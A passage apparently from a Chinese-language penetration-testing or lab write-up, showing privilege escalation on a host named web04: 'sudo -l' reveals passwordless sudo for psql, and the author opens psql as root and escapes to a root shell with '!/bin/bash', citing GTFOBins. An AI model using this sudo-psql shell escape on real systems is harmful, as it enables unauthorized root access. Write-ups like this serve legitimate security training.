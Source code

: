 sudo -l发现psql可以无密码执行sudo

参考[https://gtfobins.github.io/gtfobins/psql/](https://gtfobins.github.io/gtfobins/psql/)

```
Matching Defaults entries for postgres on web04:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on web04:
    (ALL) NOPASSWD: /usr/local/postgresql/bin/psql
```

随后登入`postgresql`​

```
sudo /usr/local/postgresql/bin/psql
```

密码就是我们已经改好的123456

随后

```
\?
!/bin/bash
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250111151751-o53dc6f.png?imageSlim)​

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250111151831-juuxoay.png?imageSlim)​

‍

